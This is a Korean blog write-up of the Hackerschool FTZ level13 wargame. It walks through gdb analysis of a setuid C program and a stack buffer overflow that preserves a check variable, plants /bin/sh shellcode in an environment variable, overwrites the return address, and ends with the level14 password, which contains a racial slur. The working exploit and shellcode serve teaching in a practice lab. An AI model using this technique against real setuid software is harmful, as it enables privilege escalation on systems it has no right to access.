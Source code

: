 ```yaml
---
layout: post
title: "Hackerschool FTZ-level13"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/25
---
```

```bash
login as: level13 
level13@~~~~'s password: 
[level13@ftz level13]$ ls 
attackme  hint  public_html  tmp 
[level13@ftz level13]$ cat hint 

#include  <stdlib.h>

main(int argc, char *argv[]) 
{ 
   long i=0x1234567; 
   char buf[1024]; 

   setreuid( 3094, 3094 ); 
   if(argc > 1) 
   strcpy(buf,argv[1]); 

   if(i != 0x1234567) { 
   printf(" Warnning: Buffer Overflow !!! \n"); 
   kill(0,11); 
   } 
} 

[level13@ftz level13]$
```


level13/have no clue로 접속하자.

hint를 보니, 버퍼오버플로우는 맞다.

그러나 i에 0x01234567이라는 주소값을 부여한다.

버퍼오버플로우를 하며 i의 주소값을 건드리면 프로그램이 종료된다.

한번 gdb로 살펴보자.


```bash
[level13@ftz level13]$ cp hint /tmp/bof.c 
[level13@ftz tmp]$ cd /tmp 
[level13@ftz tmp]$ ls 
bof.c  mysql.sock 
[level13@ftz tmp]$ gcc -o bof bof.c 
[level13@ftz tmp]$



[level13@ftz tmp]$ gdb bof 
GNU gdb Red Hat Linux (5.3post-0.20021129.18rh) 
Copyright 2003 Free Software Foundation, Inc. 
GDB is free software, covered by the GNU General Public License, and you are 
welcome to change it and/or distribute copies of it under certain conditions. 
Type "show copying" to see the conditions. 
There is absolutely no warranty for GDB.  Type "show warranty" for details. 
This GDB was configured as "i386-redhat-linux-gnu"... 
(gdb) disas main 
Dump of assembler code for function main: 
0x080483c8 <main+0>:    push   %ebp 
0x080483c9 <main+1>:    mov    %esp,%ebp 
0x080483cb <main+3>:    sub    $0x418,%esp 
0x080483d1 <main+9>:    and    $0xfffffff0,%esp 
0x080483d4 <main+12>:   mov    $0x0,%eax 
0x080483d9 <main+17>:   sub    %eax,%esp 
0x080483db <main+19>:   movl   $0x1234567,0xfffffff4(%ebp) 
0x080483e2 <main+26>:   sub    $0x8,%esp 
0x080483e5 <main+29>:   push   $0xc16 
0x080483ea <main+34>:   push   $0xc16 
0x080483ef <main+39>:   call   0x80482e8  <setreuid>
0x080483f4 <main+44>:   add    $0x10,%esp 
0x080483f7 <main+47>:   cmpl   $0x1,0x8(%ebp) 
0x080483fb <main+51>:   jle    0x8048417 <main+79> 
0x080483fd <main+53>:   sub    $0x8,%esp 
0x08048400 <main+56>:   mov    0xc(%ebp),%eax 
0x08048403 <main+59>:   add    $0x4,%eax 
0x08048406 <main+62>:   pushl  (%eax) 
0x08048408 <main+64>:   lea    0xfffffbe8(%ebp),%eax 
0x0804840e <main+70>:   push   %eax 
0x0804840f <main+71>:   call   0x8048308  <strcpy>
0x08048414 <main+76>:   add    $0x10,%esp 
0x08048417 <main+79>:   cmpl   $0x1234567,0xfffffff4(%ebp) 
0x0804841e <main+86>:   je     0x804843f <main+119> 
0x08048420 <main+88>:   sub    $0xc,%esp 
0x08048423 <main+91>:   push   $0x8048520 
0x08048428 <main+96>:   call   0x80482d8  <printf>
0x0804842d <main+101>:  add    $0x10,%esp 
0x08048430 <main+104>:  sub    $0x8,%esp 
0x08048433 <main+107>:  push   $0xb 
0x08048435 <main+109>:  push   $0x0 
0x08048437 <main+111>:  call   0x80482f8  <kill>
0x0804843c <main+116>:  add    $0x10,%esp 
0x0804843f <main+119>:  leave 
0x08048440 <main+120>:  ret 
0x08048441 <main+121>:  nop 
0x08048442 <main+122>:  nop 
0x08048443 <main+123>:  nop 
End of assembler dump. 
(gdb) 
```



main+19에서 i에게 주소값을 부여하는 모습이 보인다. i의 주소값은 0xfffffff4.

main+64에서 strcpy의 인좌에 buf가 들어가는 모습이 보인다.

buf의 주소값은 0xfffffbe8.

main+104에서 dummy에 8만큼 부여하는 것이 보인다.

일단 아무 값이나 넣어서 위치를 확인해보자.


```bash
(gdb) b*main+79 
Breakpoint 1 at 0x8048417 
(gdb) r AAAAAAAA 
Starting program: /tmp/bof AAAAAAAA 

Breakpoint 1, 0x08048417 in main ()
```


i값이 그대로인지 확인하는 main+79에 break를 걸었다.

gdb의 사용법을 잘 모른다면 이곳을 방문하자.

https://mintnlatte.tistory.com/581

아무 값이나 채워두고 esp레지스터를 확인했다.


```bash
(gdb) x/264x $esp 

0xbfffdd60:     0x41414141      0x41414141      0x00000000      0x00000000 
0xbfffdd70:     0x00000000      0x00000000      0x00000000      0x00000000 
0xbfffdd80:     0x00000000      0x00000000      0x00000000      0x00000000 
0xbfffdd90:     0x00000000      0x00000000      0x400126d0      0x400126c8 
0xbfffdda0:     0x400126ca      0x4001552c      0x514d846e      0x000001bf 
0xbfffddb0:     0x00000000      0x00000000      0x00000000      0x00000000 

.........

0xbfffe160:     0x42130a14      0x4000c660      0xbfffe178      0x01234567 
```


맨 위 A의 아스키코드인 41이 채워지는 것이 보인다.

그리고 저 밑에 내리면 0x01234567도 볼 수 있다.

i(fffffff4) - buf(fffffbe8) = 1036

1036개의 의미없는 값을 채워보자.


```bash
(gdb) r $(python -c 'print"A"*1036') 
The program being debugged has been started already. 
Start it from the beginning? (y or n) y 

Starting program: /tmp/bof $(python -c 'print"A"*1036') 

Breakpoint 1, 0x08048417 in main () 
(gdb) x/264x $esp 
0xbfffd860:     0x41414141      0x41414141      0x41414141      0x41414141 
0xbfffd870:     0x41414141      0x41414141      0x41414141      0x41414141 
0xbfffd880:     0x41414141      0x41414141      0x41414141      0x41414141

..... 
0xbfffdc60:     0x41414141      0x41414141      0x41414141      0x01234500
```




0x01234567의 값이 살짝 바뀌었다. 그럼 저곳에 0x01234567을 채워넣자.


```bash
(gdb) r $(python -c 'print"A"*1036+"\x67\x45\x23\x01"') 
The program being debugged has been started already. 
Start it from the beginning? (y or n) uy^H^H 
Please answer y or n. 
The program being debugged has been started already. 
Start it from the beginning? (y or n) y 

Starting program: /tmp/bof $(python -c 'print"A"*1036+"\x67\x45\x23\x01"') 

Breakpoint 1, 0x08048417 in main () 
(gdb) x/264x $esp 
0xbfffeae0:     0x41414141      0x41414141      0x41414141      0x41414141 
0xbfffeaf0:     0x41414141      0x41414141      0x41414141      0x41414141 
0xbfffeb00:     0x41414141      0x41414141      0x41414141      0x41414141

....

0xbfffeee0:     0x41414141      0x41414141      0x41414141      0x01234567
```


이제 i의 값도 그대로 보존했다.

이제 RET어드레스까지 값을 채우고 쉘 코드를 넣으면 되겠다.

저 위에서 보았듯, dummy를 끝에 8 부여한다.

그러니까 dummy(8) + SFP(4) = 12

12개의 값을 채우고 쉘을 실행시키는 주소를 넣자.

우선 그러려면 환경변수에 등록부터 하자.


```bash
export code=$(python -c 'print"\x90"*100+"\x31\xc0\x31\xdb\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
```

지금까지 사용한 find 프로그램도 만들자.


```bash
[level13@ftz level13]$ cd /tmp 
[level13@ftz tmp]$ vi find.c 
[level13@ftz tmp]$ cat find.c 
#include 
int main() 
{ 
        printf("%x\n",getenv("code")); 
} 
[level13@ftz tmp]$ gcc -o find find.c 
[level13@ftz tmp]$ ./find 
bfffff29 
[level13@ftz tmp]$
```


쉘 코드 주소:bfffff29
```bash
[level13@ftz level13]$ ./attackme $(python -c 'print"\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\x29\xff\xff\xbf"') 
sh-2.05b$ whoami 
level14 
sh-2.05b$ my-pass 
TERM environment variable not set. 

Level14 Password is "what that nigga want?". 

sh-2.05b$
```


답을 구했다.

level14's password:"what that nigga want?"

비밀번호가 좀.....